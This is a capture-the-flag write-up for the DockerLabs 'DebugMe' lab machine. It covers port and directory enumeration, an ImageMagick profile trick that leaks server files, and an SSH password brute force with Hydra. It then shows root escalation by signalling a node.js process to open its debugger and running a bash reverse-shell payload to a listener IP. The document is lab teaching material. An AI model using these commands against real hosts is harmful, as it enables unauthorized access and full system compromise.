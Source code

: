 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs
featured: true
draft: false
ogImage: "assets/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  This cybersecurity challenge guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process. 
---
```


This cybersecurity challenge, available on <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pinguino de Mario), guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process to achieve root access. 

## Table of contents

## Enumeration

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

We visit the website on ports 80 and 443, and the same page appears. It seems to be a tool where we can select an image and the different size versions we want for the image.

![Resize image](/assets/debugme/image-2.png)

When submitting the form with an image and different versions, it shows them on a page.

![Result](/assets/debugme/image-3.png)

We do a bit of fuzzing on the web service using gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

We find the classic info.php, with PHP information.

![gobuster](/assets/debugme/image-4.png)

In `/info.php`, we find a bunch of installed PHP extensions and a slightly outdated PHP version `PHP Version 7.2.24-0ubuntu0.18.04.3`.

We also see that the `GD` and `Image Magick` modules are installed, which may be used for the image transformation service.

## Intrusion

There are likely different ways to perform the intrusion; in this case, we opted for a possible LFI (I think this would be LFI, but I'm not sure) that occurs during ImageMagick transformation.

More information at:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Following the instructions from hackplayers, we install the necessary dependencies:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

We use a PNG and add the profile field with the path we want to inject. This will create the pngout.png file.

![pngcrush](/assets/debugme/image-5.png)

We check that it has been added correctly.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Now we use the pngout.png image in the web service, select a size, and click on "Resize".

![Resize payload](/assets/debugme/image-7.png)

The two images appear, we right-click on one and download it to our Kali, naming it resultado.png.

![alt text](/assets/debugme/image-8.png)

We check if the data has leaked in the profile.

```bash
identify -verbose resultado.png
```

![alt text](/assets/debugme/image-9.png)

It seems the data leaked correctly. We copy all the hexadecimal bytes from the profile and put them in a single line. Then, we include them in the following Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

And the result:

![alt text](/assets/debugme/image-10.png)

Great, we now have an LFI, and we can see that there is a user named `lenam` and another named `application`.

### SSH Brute Force

If we try to look for other interesting files, we don't find anything. We attempt a brute force attack with the user `lenam` using Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

With a little patience, we find the SSH password for the user lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Privilege Escalation

We access via SSH using the user `lenam` and the password `loverboy`.

![alt text](/assets/debugme/image-12.png)

We see that we can run the command `/bin/kill` as root with lenam's password.

We also look at the processes that root is running and observe that a node.js process is being executed.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

We check if there are any open local ports and find ports 8000 and 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

Port 8000 seems to be a node.js application.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Since we can kill any process, we try to open the node.js debugger by sending a `SIGUSR1` signal to the node.js process. This should restart the node.js application with the debug port open (by default, port 9229) and accessible via websockets.

More information:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

To obtain the PID of the node.js process:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

The complete command:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

We check if the debug and inspection port 9229 is now open.

![port 9229](/assets/debugme/image-16.png)

Bingo! It worked. Now we enter the node.js application with the inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

We listen with netcat.

```bash
nc -lvnp 5000
```

And we execute the following payload in the debug console, replacing the IP 10.0.2.15 with yours.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Congratulations, we are now root.